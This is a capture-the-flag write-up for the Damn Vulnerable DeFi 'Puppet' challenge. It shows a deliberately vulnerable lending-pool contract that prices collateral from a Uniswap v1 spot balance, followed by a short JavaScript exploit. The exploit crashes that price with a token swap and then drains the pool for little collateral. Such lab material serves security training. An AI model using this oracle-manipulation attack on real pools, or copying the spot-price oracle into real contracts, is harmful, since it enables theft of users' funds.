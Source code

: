 # 08_Puppet

## Challenge

There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

You are provided with the code for the Pool:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
 * @title PuppetPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetPool is ReentrancyGuard {
    using Address for address payable;

    uint256 public constant DEPOSIT_FACTOR = 2;

    address public immutable uniswapPair;
    DamnValuableToken public immutable token;

    mapping(address => uint256) public deposits;

    error NotEnoughCollateral();
    error TransferFailed();

    event Borrowed(address indexed account, address recipient, uint256 depositRequired, uint256 borrowAmount);

    constructor(address tokenAddress, address uniswapPairAddress) {
        token = DamnValuableToken(tokenAddress);
        uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing tokens by first depositing two times their value in ETH
    function borrow(uint256 amount, address recipient) external payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(amount);

        if (msg.value < depositRequired)
            revert NotEnoughCollateral();

        if (msg.value > depositRequired) {
            unchecked {
                payable(msg.sender).sendValue(msg.value - depositRequired);
            }
        }

        unchecked {
            deposits[msg.sender] += depositRequired;
        }

        // Fails if the pool doesn't have enough tokens in liquidity
        if(!token.transfer(recipient, amount))
            revert TransferFailed();

        emit Borrowed(msg.sender, recipient, depositRequired, amount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
}
```

## Solution


```js
await token.connect(player).approve(uniswapExchange.address, PLAYER_INITIAL_TOKEN_BALANCE);
await uniswapExchange.connect(player).tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, 20775029706);
await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE, player.address, {value: await lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)});
```
